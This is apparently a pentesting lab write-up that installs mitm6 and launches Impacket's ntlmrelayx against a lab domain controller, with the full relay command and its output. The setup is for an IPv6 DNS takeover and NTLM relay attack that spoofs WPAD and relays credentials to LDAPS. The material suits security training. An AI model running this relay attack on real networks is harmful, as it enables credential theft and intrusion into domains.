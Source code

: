 
First of all install [pimpmykali](https://github.com/Dewalt-arch/pimpmykali) cos' the tool `mitm6` doesn't come pre-installed with kali linux

![](https://i.imgur.com/SyvCBNl.png)

Change directory to `/opt/mitm6` and install the necessary requirements

```shell
sec-fortress@Pwn-F0rk-3X3C:/opt/mitm6$ cd /opt/mitm6      

sec-fortress@Pwn-F0rk-3X3C:/opt/mitm6$ sudo pip2 install .

sec-fortress@Pwn-F0rk-3X3C:/opt/mitm6$ cd ~         

sec-fortress@Pwn-F0rk-3X3C:~$ 
```

![](https://i.imgur.com/jIbtM8b.jpg)

### Setting up ntlmrelayx and mitm6

On your terminal do :

```shell
sec-fortress@Pwn-F0rk-3X3C:~/PEH/AD$ ntlmrelayx.py -6 -t ldaps://192.168.0.110 -wh fakewpad.marvel.local -l bankai

Impacket v0.9.19 - Copyright 2019 SecureAuth Corporation

[*] Protocol Client SMB loaded..
[*] Protocol Client SMTP loaded..
/usr/share/offsec-awae-wheels/pyOpenSSL-19.1.0-py2.py3-none-any.whl/OpenSSL/crypto.py:12: CryptographyDeprecationWarning: Python 2 is no longer supported by the Python core team. Support for it is now deprecated in cryptography, and will be removed in the next release.
[*] Protocol Client MSSQL loaded..
[*] Protocol Client HTTPS loaded..
[*] Protocol Client HTTP loaded..
[*] Protocol Client IMAPS loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client LDAP loaded..
[*] Protocol Client LDAPS loaded..
[*] Running in relay mode to single host
[*] Setting up SMB Server
[*] Setting up HTTP Server

[*] Servers started, waiting for connections
```

Note that `-6` represents IPv6 `-t` for targets `-wh` for fake web proxy auto-discovery `-l` will create a folder named bankai 